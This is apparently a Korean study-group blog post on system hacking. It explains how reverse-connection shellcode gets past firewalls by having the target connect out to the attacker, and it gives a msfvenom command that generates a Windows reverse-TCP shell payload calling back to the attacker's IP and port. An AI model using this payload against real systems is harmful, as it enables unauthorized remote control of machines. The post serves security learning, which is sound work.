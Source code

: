 ```yaml
---
layout: post
title: SUA 시스템 해킹 스터디 - 리버스 커넥션 쉘코드
---
```


### 170924 8주차

<br>
## 3. 리버스 커넥션 쉘코드

이전 [포스트](https://handongchoi.com/2017/09/17/system-hacking-day-8/)에서 살펴봤던 포트 바인딩 쉘코드는 단점이 하나 있다. 대부분의 서버에는 방화벽이 있기 때문에 막상 포트를 열었어도 접속하지 못하는 경우가 생긴다. 이러한 경우, 방화벽을 우회하기 위해 리버스 커넥션 쉘코드를 사용한다.
> 리버스 커넥션이란, 대부분의 방화벽에서 아웃바운드(*outbound*) 트래픽을 차단하지 않는다는 점을 이용해 타켓 시스템(*내부망*)에서 공격자의 PC(*외부망*)로 거꾸로 접속을 하도록 만드는 것이다. 아웃바운드와 인바운드의 차이점은 [여기](https://zetawiki.com/wiki/인바운드,_아웃바운드)서 확인할 수 있다.

쉘코드가 실행되면, 소켓이나 파이프를 통해 입출력값을 리다이렉트 시켜서 공격자가 명령을 수행할 수 있도록 해 주며 공격자는 방화벽을 우회하여 타겟 시스템의 쉘을 얻을 수 있게 된다.

이번에도 마찬가지로, msfvenom을 이용해서 리버스 커넥션 쉘코드를 만들어 보자. Kali Linux에 로그인하고 터미널을 열어서 아래와 같이 msfvenom 명령어를 실행한다. 여기서 lhost 옵션은 자신의 IP를 입력한다. 결과적으로, 타겟 시스템에서 쉘코드 실행 시 입력한 IP와 포트로 쉘을 연결해 준다.

<p style="text-align:center;">
  <img src="https://raw.githubusercontent.com/henrychoi7/henrychoi7.github.io/master/img/170924/rcs1.png" width="80%">
</p>
> `msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.7 lport=7777 -a x86 -f c --platform windows`
